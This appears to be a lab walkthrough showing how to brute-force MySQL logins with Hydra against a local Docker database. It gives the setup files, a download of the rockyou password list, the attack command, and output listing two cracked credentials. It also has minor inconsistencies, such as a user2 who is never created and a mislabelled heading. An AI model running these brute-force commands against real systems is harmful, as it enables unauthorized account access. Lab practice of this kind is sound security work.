 ```yaml
---
layout: default
title: "Hydra Walkthrough"
---
```


# Hydra Walkthrough
Hydra is a powerful network logon cracker that supports numerous protocols, enabling security professionals to test the strength of passwords by performing brute-force attacks. It is widely used for network security testing, helping to identify weak passwords on various services such as FTP, HTTP, SMTP, and more.

## Installation

```bash
# Linux
apt-get install hydra

# MacOS
brew install hydra
```

Validate installation by running:

```bash
hydra -h
```

## Prepare attack target - MySQL database
### Create `init.sql`
```sql
-- Create additional users
CREATE USER 'user1'@'%' IDENTIFIED BY 'password12345';

-- Grant privileges
GRANT ALL PRIVILEGES ON db.* TO 'user1'@'%';

GRANT SELECT ON mysql.user TO 'user'@'%';


-- Flush privileges to ensure that all changes take effect
FLUSH PRIVILEGES;
```

### Create `docker-compose.yml`
```yaml
version: "3.8"

services:
  db:
    image: mysql:latest
    container_name: mysql_db
    environment:
      MYSQL_ROOT_PASSWORD: rootpassword
      MYSQL_DATABASE: db
      MYSQL_USER: user
      MYSQL_PASSWORD: password
    volumes:
      - db_data:/var/lib/mysql
      - ./init.sql:/docker-entrypoint-initdb.d/init.sql
    ports:
      - "3306:3306"

volumes:
  db_data:
```

Run MySQL database in Docker container:

```bash
docker-compose up -d
```

Install MySQL client:

```bash
# Linux
apt-get install mysql-client

# MacOS
brew install mysql-client
```

Connect to MySQL database:

```bash
╰─ sudo mysql -h 127.0.0.1 -P 3306 -u user -p

Enter password:
Welcome to the MySQL monitor.  Commands end with ; or \g.
Your MySQL connection id is 8
Server version: 8.3.0 MySQL Community Server - GPL

Copyright (c) 2000, 2024, Oracle and/or its affiliates.

Oracle is a registered trademark of Oracle Corporation and/or its
affiliates. Other names may be trademarks of their respective
owners.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

mysql>

```

List all user

```sql
SELECT User, Host FROM mysql.user;
```

You should see

```
+------------------+-----------+
| User             | Host      |
+------------------+-----------+
| root             | %         |
| user             | %         |
| user1            | %         |
| user2            | %         |
| mysql.infoschema | localhost |
| mysql.session    | localhost |
| mysql.sys        | localhost |
| root             | localhost |
+------------------+-----------+
8 rows in set (0.01 sec)
```

## Prepare attack data

Check usernames.txt file:

```txt
user
user1
user2
```

Download rockyou.txt dictionary:

```bash
#bin/sh

# Download rockyou.txt dictionary
wget https://github.com/danielmiessler/SecLists/raw/master/Passwords/Leaked-Databases/rockyou.txt.tar.gz

# Extract rockyou.txt dictionary
tar -xvf rockyou.txt.tar.gz

# Rename rockyou.txt to passwords.txt
mv rockyou.txt passwords.txt

# Remove rockyou.txt.tar.gz
rm rockyou.txt.tar.gz
```

```bash
# Download
./download_rockyou.txt
```

## Attack MySQL database

```bash
hydra -L usernames.txt -P passwords.txt -s 3306 localhost mysql
```

```bash
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-07-13 12:01:24
[INFO] Reduced number of tasks to 4 (mysql does not like many parallel connections)
[WARNING] Restorefile (you have 10 seconds to abort... (use option -I to skip waiting)) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 4 tasks per 1 server, overall 4 tasks, 28688796 login tries (l:2/p:14344398), ~7172199 tries per task
[DATA] attacking mysql://localhost:3306/
```

### password

```bash
[3306][mysql] host: localhost   login: user   password: password
```

### password1234

```bash
[3306][mysql] host: localhost   login: user1   password: password12345
[STATUS] attack finished for localhost (waiting for children to complete tests)
1 of 1 target successfully completed, 2 valid passwords found
```
